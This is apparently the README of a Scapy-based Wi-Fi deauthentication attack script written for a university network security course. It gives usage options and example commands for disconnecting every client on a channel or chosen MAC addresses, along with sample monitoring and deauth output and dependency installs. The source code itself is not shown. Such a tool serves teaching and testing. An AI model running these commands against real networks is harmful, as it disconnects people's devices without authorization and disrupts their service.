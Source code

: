 # WiFi-Deauth
Wi-Fi Deauthentication Attack using [Scapy](https://scapy.net/)

## Usage
Script parameters

```
thanos@briki:~/$ ./deauth.py -h
Usage: sudo ./deauth.py [ARGUMENTS]...

Optional arguments.
  -v                         Run in verbose mode.
  -h, --help                 Prints this message.
  -c, --channel              Channel to monitor.
  -a, --attack               Victim's MAC address.

Example usage
  Monitor channel 8 for victims:
    sudo ./deauth.py -c 8
  Attack all clients on channel 8:
    sudo ./deauth.py -c 8 -a *
  Attack clients by MAC on channel 8:
    sudo ./deauth.py -c 8 -a AA:11:22:33:44:55 -a BB:11:22:33:44:55

By GramThanos
```

Monitor mode on channel 8

```
thanos@briki:~/$ sudo ./deauth.py -c 8
[ATK][INFO] Loading vendor list from cache
[ATK][INFO] Vendor list successfully loaded: 27663 entries
[ATK][INFO] Interface "wlp3s0" selected
[ATK][INFO] Channel was set to 8
[ATK][INFO] Detected AP     : "Thanos" - YY:YY:YY:YY:YY:YY [TP-LINK TECHNOLOGIES CO.,LTD.]
[ATK][INFO] Detected victim : XX:XX:XX:XX:XX:XX [Raspberry Pi Foundation]
[ATK][INFO] Detected victim : XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Detected victim : XX:XX:XX:XX:XX:XX [Raspberry Pi Foundation]
[ATK][INFO] Detected victim : XX:XX:XX:XX:XX:XX [Apple, Inc.]
[ATK][INFO] Detected victim : XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
^C
```

Attack victim device with MAC address "XX:XX:XX:XX:XX:XX" on channel 8

```
thanos@briki:~/$ sudo ./deauth.py -c 8 -a XX:XX:XX:XX:XX:XX
[ATK][INFO] Loading vendor list from cache
[ATK][INFO] Vendor list successfully loaded: 27663 entries
[ATK][INFO] Interface "wlp3s0" selected
[ATK][INFO] Channel was set to 8
[ATK][INFO] Detected AP : "Thanos" - YY:YY:YY:YY:YY:YY [TP-LINK TECHNOLOGIES CO.,LTD.]
[ATK][INFO] Deauth      : [1] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Deauth      : [2] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Deauth      : [3] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Deauth      : [4] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Deauth      : [5] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Deauth      : [6] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Deauth      : [7] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
[ATK][INFO] Deauth      : [8] XX:XX:XX:XX:XX:XX [Xiaomi Communications Co Ltd]
^C
```

## Install Dependancies
The script was created for python3.

You will need pip
```sh
sudo apt install python3-pip
```

Install [Scapy](https://scapy.net/)
```sh
sudo pip3 install scapy
```
Install [mac-vendor-lookup](https://pypi.org/project/mac-vendor-lookup/)
```sh
sudo pip3 install mac-vendor-lookup
```

## About
This script was created for use in an exercise of the course Mobile Network Security (2019-2020) at University of Piraeus.
